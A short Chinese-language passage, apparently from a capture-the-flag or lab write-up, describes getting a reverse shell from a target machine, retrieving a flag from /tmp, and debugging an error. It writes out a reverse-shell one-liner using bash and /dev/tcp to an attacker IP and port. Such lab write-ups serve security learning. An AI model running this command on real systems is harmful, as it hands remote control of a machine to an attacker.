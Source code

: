 通过在靶机中独立测试有效负载，成功连接攻击机并反弹 Shell，验证漏洞成功利用。

![反弹 shell](./img/反弹shell.png)

##### 监听与获取 Flag

通过监听靶机的 `/tmp` 目录，成功获取包含漏洞 Flag 的文件。

![漏洞 flag](./img/漏洞flag.png)

##### 反弹窗口连接报错分析

运行 `bash -i >& /dev/tcp/192.168.164.4/7777 0>&1` 时，出现了报错。进一步分析发现，bash 解释器的环境不支持该语法，导致了语法错误。

![负载测试报错分析](./img/负载测试报错分析.png)